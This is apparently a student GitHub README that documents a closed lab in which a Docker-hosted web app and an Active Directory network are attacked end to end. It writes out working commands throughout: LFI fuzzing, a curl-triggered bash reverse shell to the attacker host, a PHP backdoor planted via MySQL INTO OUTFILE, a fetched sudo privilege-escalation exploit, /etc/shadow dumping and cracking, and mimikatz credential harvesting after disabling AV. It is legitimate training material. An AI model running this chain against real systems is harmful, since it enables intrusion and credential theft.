

# Applied Security Project — AD Infrastructure

> **Purpose:**\
> This repository documents the end-to-end process for building a small enterprise-style lab, enumerating its attack surface, and reproducing realistic attacker techniques in a safe, controlled environment for learning and defense hardening.

> **Scope & Ethics:**\
> Everything here is for **authorized, educational lab use only**.\
> DO **NOT** target systems without explicit written permission.

---

## Table of Contents

* [Overview](#overview)
* [Lab Topology](#lab-topology)
* [Prerequisites](#prerequisites)
* [Quick Start](#quick-start)
* [Methodology & Commands](#methodology--commands)

  * [1. Network Enumeration](#1-network-enumeration)
  * [2. Web Application Reconnaissance & Discovery](#2-web-application-reconnaissance--discovery)
  * [3. Initial Foothold (Web Container)](#3-initial-foothold-web-container)
  * [4. Post-Exploitation in Container](#4-post-exploitation-in-container)
  * [5. Host Pivot Concept (Benign Verification)](#5-host-pivot-concept-benign-verification)
  * [6. Privilege Escalation, Hash Cracking, and Network Pivoting](#6-privilege-escalation-hash-cracking-and-network-pivoting)
* [Cleanup & Reset](#cleanup--reset)
* [Docker Hub Repository](#docker-hub-repository)
* [Safety Notes](#safety-notes)
* [References](#references)

---

## Overview

This repository demonstrates a realistic attack simulation against a Docker-hosted web application within a segmented lab network. It walks through reconnaissance, exploitation, privilege escalation, hash cracking, and pivoting techniques

---

## Lab Topology
### Network Diagram



All nodes are on a flat lab network and, except Kali, are joined to Active Directory.

- **Windows AD** — Domain Services, users/groups, baseline GPOs, Sysmon
- **Windows Server 1** — SMB, HTTP, WinRM, RDP
- **Windows Server 2** — SMB, RPC, WinRM, PS Remoting
- **Windows Workstation** — Windows 10, NTLM, file shares
- **Linux (Docker host)** — Hosts the vulnerable web stack inside a container
- **Kali (Attacker tools)** — Nmap, Gobuster, wfuzz, Burp Suite, local HTTP server, utilities


---

## Prerequisites

- Docker installed on your linux server
- VMware, VirtualBox, Hyper-V
- An account on [Docker Hub](https://hub.docker.com)
- Internet connection to pull the image

---

## Quick Start

The quickest way to get started with the `imahamed/holo-live2` image is:

### 1. Pull the Image

```bash
docker pull imahamed/holo-live2:v1
```

### 2. Run the Container

```bash
docker run -it --name holo-live2 imahamed/holo-live2:v1 /bin/bash
```

### 3. Verify the Container is Running

```bash
docker ps
```

### 4. Stop and Remove the Container

```bash
docker stop holo-live2
docker rm holo-live2
```
---
For a more detailed guide on how to setup the VMs
[Virtual Machine Setup Guide](./VMsetup.md)
---

## Methodology & Commands

### 1. Network Enumeration

We begin by running an initial scan of the infrastructure:

```bash
nmap -sV -p- 192.168.198.0/24 -oN initial_scan.txt
```

Key findings from Nmap:

- Apache2 web server running on port 80
- MySQL running on 3306
- Host identified as Ubuntu
- Additional metadata on TLS, HTTP, MySQL

---

### 2. Web Application Reconnaissance & Discovery

#### Gobuster Directory Enumeration

```bash
gobuster dir -u http://www.holo.live:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak,zip
```

Discovered:

- `/index.html`, `/index.php`, `/robots.txt`, `/server-status`, `/rce.php`, `/shell.php`

#### wfuzz File Inclusion & Discovery

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hc 404 http://192.168.198.135:8080/lfi.php?file=FUZZ
```

Found accessible files:

- `/etc/passwd`
- `/proc/self/environ`
- Various Apache log files

---

### 3. Initial Foothold (Web Container)

#### Reverse Shell Exploit

Used curl to trigger remote execution:

```bash
curl -H 'Host: www.holo.live' "http://192.168.198.135:8080/rce.php?cmd=whoami"
curl -H 'Host: www.holo.live' "http://192.168.198.135:8080/shell.php?cmd=bash+-i+>&+/dev/tcp/192.168.198.130/4444+0>&1"
```

Started netcat listener:

```bash
nc -lvnp 4444
```

Confirmed access via:

```bash
whoami
id
hostname
```

---

### 4. Post-Exploitation in Container

Enumerated container environment:

```bash
hostname
docker -v
cat /etc/issue
cat /proc/1/cgroup
```

Searched for credentials:

```bash
cat /var/www/html/db_connect.php
```

Output:

```php
$servername = '192.168.100.135';
$username = 'admin';
$password = '!123SecureAdminInDashboard321';
$dbname = 'dashboard';
```

---

### 5. Host Pivot 

Tested container breakout by placing PHP backdoor with MySQL:

```sql
SELECT "<?php system($_GET['cmd']); ?>"
INTO OUTFILE "/var/www/html/shell.php"
```

Then accessed:

```bash
curl -H 'Host: www.holo.live' "http://192.168.198.135/shell.php?cmd=whoami"
```

Opened shell again:

```bash
curl -H 'Host: www.holo.live' "http://192.168.198.135/shell.php?cmd=bash+-i+>&+/dev/tcp/192.168.198.130/4444+0>&1"
```

Listener:

```bash
nc -lvnp 4444
```

Confirmed host access with `hostname` and `whoami`.

---
### 6. Privilege Escalation, Hash Cracking, and Network Pivoting

#### Shell Upgrade & LinPEAS

install in kali machine and start an HTTP server in the directory that contains ./sudo-chwoot.sh and download Linpeas.sh
````
git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot
cd CVE-2025-32463_chwoot
sudo chmod 777 ./CVE-2025-32463_chwoot
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo chmod 777 ./linpeas.sh
python -m http.server 8000
````
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp
curl -O http://192.168.100.130:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### Privilege Escalation via Exploit Script

```bash
curl -O http://192.168.198.130:8000/sudo-chwoot.sh
chmod +x sudo-chwoot.sh
./sudo-chwoot.sh
```

#### Dump & Crack Shadow Hashes

```bash
cat /etc/shadow
# Copy contents to Kali
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt hashubuntu.txt
```

#### Windows Share Enumeration & File Extraction

```bash
cd /mnt/Windows_Share
python3 -m http.server 8888
```

Then from Kali:

```bash
wget http://192.168.198.135:8888/secret2.7z
/usr/share/john/7z2john.pl secret2.7z > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

#### Pivot Access via SSHuttle

```bash
sudo sshuttle -r root@192.168.198.135 --ssh-cmd "ssh -i /root/.ssh/id_rsa" 192.168.198.0/24 -x 192.168.198.135 -vvv
```

#### RDP and Credential Dump with Mimikatz

Log into `192.168.198.140` via RDP (Rimmenna or xfreerdp)
Disable AV → Upload mimikatz → Launch via PowerShell:

```bash
mimikatz
sekurlsa::logonpasswords
```

#### Additional Commands Used

```bash
# Connect to MySQL database (from db_connect.php credentials example):
mysql -u root -p
```

```bash
# Upgrade shell manually if needed:
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Crack archive password
/usr/share/john/7z2john.pl secret2.7z > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Use john with SHA512 format
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt hashubuntu.txt

# Mimikatz credential harvesting:
sekurlsa::logonpasswords
```

## Recon in reverse shell 

```bash
whoami
id
hostname
ip a
pwd
ls -la /var/www/html
date
```


---

## Cleanup & Reset

```bash
docker stop holo-live2
docker rm holo-live2 
docker image rm imahamed/holo-live2:v1 
sudo rm -f /var/www/html/host_success.php 
```

---

## Docker Hub Repository

- **Name:** `imahamed/holo-live2`
- **Tags:**
  - `v1` — Stable tagged release used in this lab
  - `latest` — Ongoing updates (if published)
---

## Safety Notes

- Replace IPs and credentials with your own lab values.
- This project is conducted strictly within a closed, controlled virtual environment with no internet-facing components.
- All tools and techniques are executed with full authorization in the lab.
---

## References

- Replicated attack chain [`Attack chain AIMING AT
WINDOWS (ACTIVE DIRECTORY)`](https://www.theseus.fi/bitstream/handle/10024/860163/huyviet%20_le.pdf?sequence=2)
- Tools used: Nmap, Gobuster, wfuzz, Burp Suite, LinPEAS
- Docker image: [`imahamed/holo-live2`](https://hub.docker.com/r/imahamed/holo-live2)
---

If your having difficulties running the simulation please let us know via email

: Imahamed@myseneca.ca | jnguyen135@myseneca.ca | omerchant@myseneca.ca 

